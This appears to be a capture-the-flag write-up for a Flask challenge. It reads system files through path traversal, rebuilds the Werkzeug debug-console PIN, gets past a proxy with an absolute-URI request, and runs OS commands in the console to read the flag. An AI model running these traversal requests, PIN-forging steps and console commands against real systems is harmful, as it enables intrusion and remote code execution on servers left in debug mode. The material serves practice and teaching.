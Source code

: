 # My Flask App [WEB] [EASY]

> I created a Web application in Flask, what could be wrong?
>
> Author: belugagemink

## Debug Mode

Flask app is running in debug mode, so we can access a debug console on the
following URL: <http://localhost:5000/console>.

Only issue is that we need a PIN code that is logged in
the console when starting the app.

## How is the PIN code generated?

> - <https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py>
> - <https://github.com/wdahlenburg/werkzeug-debug-console-bypass>

### Username

According to the `Dockerfile`, we're running `app.py` with `nobody` user.

```Dockerfile
USER nobody
EXPOSE 5000
CMD ["python", "app.py"]
```

### Path to Flask

Let's run the Docker Compose setup locally with `docker compose up` and
`docker exec -t -i <container_id> /bin/bash` to find the path of Flask.

```console
$ find / -name "app.py" 2>/dev/null
/usr/local/lib/python3.11/site-packages/flask/app.py
/usr/local/lib/python3.11/site-packages/flask/sansio/app.py
/app/app.py
```

`/usr/local/lib/python3.11/site-packages/flask/app.py` is our path!

### MAC

```console
$ curl http://localhost:5000/view?filename=/sys/class/net/eth0/address
02:42:ac:11:00:04
```

### Machine ID

```console
$ curl http://localhost:5000/view?filename=/proc/sys/kernel/random/boot_id
db004940-aa5c-4dff-ad37-2c3e70a8b9e2
```

### Generation!

Based entirely on <https://github.com/wdahlenburg/werkzeug-debug-console-bypass/blob/main/werkzeug-pin-bypass.py>, I wrote my own version to include the previous variables and forget useless ones.

You can check the source code out at [`scripts/my_flask_app_sekaictf.js`](./scripts/my_flask_app_sekaictf.js).

```console
$ bun run ./writeups/scripts/my_flask_app_sekaictf.js
640-156-272
```

## Console Protected by Proxy

Now that we've all the keys to succeed, let's try to run an instance, get our
values and try to log into the console!

Sadly, when entering `/console`, we get a `400` HTTP error. Proxy probably
won't let us enter, how can we bypass this?

I booted up Burp Suite and intercepted requests and tweaked a little bit the
HTTP message for the requested path, from:

```
GET /console?pin=640-156-272&btn=Confirm+Pin HTTP/1.1
```

to:

```
GET http://localhost:5000/console?pin=640-156-272&btn=Confirm+Pin HTTP/1.1
```

and it let me enter!

However, I had to do this manually for each request Burp intercepted,
there's probably a better way to do this.

## Get the flag!

Since we're in a Python environment, we can easily run any command.
Let's list all the files from `/` since the `Dockerfile` moved our
flag there.

```console
> __import__('os').popen('ls /').read();
...
flag-W6CL3CglAjqwqEVAlKpUSgPFZ81G45Ht.txt
...
```

Let's grab the file using our good ol' path traversal.

```console
$ curl https://INSTANCE_URL/view?filename=/flag-W6CL3CglAjqwqEVAlKpUSgPFZ81G45Ht.txt
SEKAI{1$\_+his-3ven-<4LL3D-4-(V3}
```
